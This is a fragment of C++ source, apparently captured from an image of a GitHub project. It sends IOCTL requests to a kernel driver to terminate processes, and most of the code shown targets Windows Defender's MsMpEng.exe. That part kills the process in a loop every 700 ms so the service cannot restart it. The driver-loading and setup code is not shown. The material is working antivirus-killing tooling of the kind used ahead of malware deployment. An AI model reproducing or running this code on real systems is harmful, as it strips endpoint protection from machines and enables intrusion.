 ```cpp
    DWORD output[2] = { 0 };
    DWORD outputSize = sizeof(output);

    BOOL result = DeviceIoControl(hDevice, INITIALIZE_IOCTL_CODE, &input, sizeof(input), output, outputSize, &bytesReturned, NULL);
    if (!result)
    {
        printf("faild to send initializing request %X !!\n", INITIALIZE_IOCTL_CODE);
        return (-1);
    }

    printf("driver initialized %X !!\n", INITIALIZE_IOCTL_CODE);

    if (GetPID(L"MsMpEng.exe") == input)
    {
        printf("Terminating Windows Defender ..\nkeep the program running to prevent the service from restarting it\n");
        while (0x1)
        {
            if (input = GetPID(L"MsMpEng.exe"))
            {
                if (!DeviceIoControl(hDevice, TERMINSTE_PROCESS_IOCTL_CODE, &input, sizeof(input), output, outputSize, &bytesReturned, NULL))
                {
                    printf("DeviceIoControl failed. Error: %X !!\n", GetLastError());
                    CloseHandle(hDevice);
                    return (-1);
                }
                if (once)
                {
                    printf("Defender Terminated ..\n");
                    once = 0;
                }

            }

            Sleep(700);
        }
    }

    printf("terminating process !! \n");

    result = DeviceIoControl(hDevice, TERMINSTE_PROCESS_IOCTL_CODE, &input, sizeof(input), output, outputSize, &bytesReturned, NULL);

    if (!result)
    {
        printf("failed to terminate process: %X !!\n", GetLastError());
        CloseHandle(hDevice);
        return (-1);
    }

    printf("process has been terminated!\n");

    system("pause");

    CloseHandle(hDevice);

    return 0;
}
```
